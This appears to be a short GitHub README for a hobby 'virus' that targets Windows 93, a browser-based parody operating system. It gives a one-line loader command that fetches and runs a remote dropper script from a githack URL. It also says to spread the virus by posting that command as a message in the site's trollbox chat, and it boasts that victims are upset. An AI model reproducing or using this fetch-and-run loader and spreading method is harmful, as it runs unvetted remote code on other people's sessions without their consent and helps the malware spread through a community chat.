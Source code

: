 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`    
Spread via trollbox as message:    
`/exe js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`

## Does it work?
YES apparently. Never seen it for myself but some people are crying about it now ._.

## Why does it sometimes take long to update
githack is not ok
